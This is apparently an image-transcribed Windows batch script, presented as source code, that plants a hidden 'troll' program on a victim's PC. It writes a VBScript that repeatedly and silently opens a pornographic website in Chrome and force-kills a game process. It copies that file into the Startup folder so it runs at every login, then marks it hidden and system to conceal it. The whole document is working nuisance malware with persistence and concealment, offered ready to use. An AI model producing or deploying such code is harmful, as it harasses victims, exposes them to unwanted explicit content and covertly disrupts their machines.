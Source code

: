echo Set objShell = CreateObject("WScript.Shell") > %USERPROFILE%\Desktop\troll.vbs
echo WScript.Sleep 600000 >> %USERPROFILE%\Desktop\troll.vbs
echo Do >> %USERPROFILE%\Desktop\troll.vbs
echo     objShell.Run "chrome.exe https://www.javhd.com", 0, True >> %USERPROFILE%\Desktop\troll.vbs
echo     WScript.Sleep 10000 >> %USERPROFILE%\Desktop\troll.vbs
echo     WScript.Sleep 1800000 >> %USERPROFILE%\Desktop\troll.vbs
echo     objShell.Run "taskkill /F /IM gamename.exe", 0, True >> %USERPROFILE%\Desktop\troll.vbs
echo Loop >> %USERPROFILE%\Desktop\troll.vbs

move %USERPROFILE%\Desktop\troll.vbs %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\

attrib +h +s "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\troll.vbs"
